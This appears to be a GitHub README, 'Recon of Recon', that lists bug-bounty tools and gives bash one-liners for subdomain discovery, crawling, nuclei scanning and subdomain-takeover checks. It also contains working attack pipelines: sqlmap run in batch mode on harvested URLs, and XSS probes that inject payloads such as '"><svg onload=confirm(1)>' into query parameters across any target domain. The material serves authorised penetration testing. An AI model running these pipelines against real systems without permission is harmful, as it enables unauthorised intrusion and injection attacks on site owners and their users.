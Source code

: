 ## Recon of Recon

## Credits

[OFJAAAH](https://github.com/OFJAAAH)<br>
[c4ng4c3ir0 ](https://github.com/c4ng4c3ir0)<br>

## Tools

[Subfinder](https://github.com/projectdiscovery/subfinder)<br>
[Sqlmap](https://github.com/sqlmapproject/sqlmap)<br>
[Katana](https://github.com/projectdiscovery/katana)<br>
[Gospider](https://github.com/jaeles-project/gospider)<br>
[Httpx-ToolKit](https://www.kali.org/tools/httpx-toolkit/)<br>
[Qsreplace](https://github.com/tomnomnom/qsreplace)<br>
[Airixss](https://github.com/ferreiraklet/airixss)<br>
[Uro](https://github.com/s0md3v/uro)<br>
[Nuclei](https://github.com/projectdiscovery/nuclei)<br>
[Freq](https://github.com/takshal/freq)<br>
[Hakrawler](https://github.com/hakluke/hakrawler)<br>
[Findomain](https://github.com/Edu4rdSHL/findomain)<br>
[Anew](https://github.com/tomnomnom/anew)<br>
[WayBackUrls](https://github.com/tomnomnom/waybackurls)<br>
[gf](https://github.com/tomnomnom/gf)<br>
[waybackrobots](https://github.com/vodafon/waybackrobots)<br>
[Dalfox](https://github.com/hahwul/dalfox)<br>
[XssTrike](https://github.com/s0md3v/XSStrike)<br>
[Gau](https://github.com/lc/gau)<br>
[Subzy](https://github.com/PentestPad/subzy)<br>
[Whatweb](https://www.kali.org/tools/whatweb/)<br>
[Nikto](https://github.com/sullo/nikto/tree/master)<br>


###  HTTP200. 

```bash
subfinder -d $(cat url) | httpx-toolkit -silent -sc -t 1000 | anew http200;
```

###  WaybackRobots. 

```bash
cat http200 | waybackrobots -d $(cat url) -raw | anew wayROBOTS;
```

###  Sqlmap. 

```bash
findomain -t $(cat url) -q | httpx-toolkit -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli -batch --random-agent --level 1 | anew sqlmap;
```

###  Whatweb. 

```bash
whatweb $(cat url) | anew whatweb;
```


###  Subfinder. 

```bash
subfinder -d $(cat url) -silent -all | httpx-toolkit -silent | anew subfinder;
```

###  SubzyTakeOver. 

```bash
subzy run --targets subfinder | anew subzytakeover;
```


###  Katana crawling. 

```bash
cat subfinder | katana -d 5 -silent | grep -iE '\.js'| grep -iEv '(\.jsp|\.json)' | anew KatanaCrawling1;

cat subfinder | katana -d 5 -silent -em js,jsp,json | anew KatanaCrawling2;
```


###  Dalfox. 

```bash
sudo dalfox url https://testphp.vulnweb.com/listproducts.php?cat=
```


###  Nikto. 

```bash
cd nikto/program
./nikto.pl -h http://www.example.com
```


###  XssTrike. 

```bash
sudo python3 xsstrike.py -u http://testphp.vulnweb.com/

sudo python3 xsstrike.py -u http://testphp.vulnweb.com/listproducts.php\?cat\=

sudo python3 xsstrike.py -u http://testphp.vulnweb.com/listproducts.php\?cat\= -f payforce.txt
```

###  Gau. 

```bash
gau $(cat url) | grep "\.js" | anew gau
```


###  Gospider. 

```bash
gospider -d 0 -s $(cat url) -c 5 -t 100 -d 5 --blacklist jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,pdf,svg,txt | grep -Eo '(http|https)://[^/"]+' | anew gospider
```


###  Xss1. 

```bash
echo $(cat url) | httpx-toolkit -silent | hakrawler -subs | grep "=" | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not' | anew xss1;
```



###  Xss2. 

```bash
echo $(cat url) | httpx-toolkit -silent | katana -d 10 -silent | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq | egrep -v 'Not' | anew xss2;
```



###  Xss3. 

```bash
echo $(cat url) | waybackurls | gf xss | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq | egrep -v 'Not' | anew xss3;
```


###  Xss4. 

```bash
gau $(cat url) | httpx-toolkit -silent | qsreplace '>XSS<' | freq | grep '>XSS<' | anew xss4;
```


###  OpenRedirect gf. 

```bash
echo $(cat url) | waybackurls | httpx-toolkit -silent -timeout 2 -threads 100 | gf redirect | anew openRedirect
```


###  Nuclei. 

```bash
echo $(cat url) | subfinder -silent | httpx-toolkit -p 80,443,81,300,591,593,832,981,1010,1311,1099,2082,2095,2096,2480,3000,3128,3333,4243,4567,4711,4712,4993,5000,5104,5108,5280,5281,5601,5800,6543,7000,7001,7396,7474,8000,8001,8008,8014,8042,8060,8069,8080,8081,8083,8088,8090,8091,8095,8118,8123,8172,8181,8222,8243,8280,8281,8333,8337,8443,8500,8834,8880,8888,8983,9000,9001,9043,9060,9080,9090,9091,9200,9443,9502,9800,9981,10000,10250,11371,12443,15672,16080,17778,18091,18092,20720,32000,55440,55672 | nuclei -severity low,medium,high,critical | anew nuclei
```

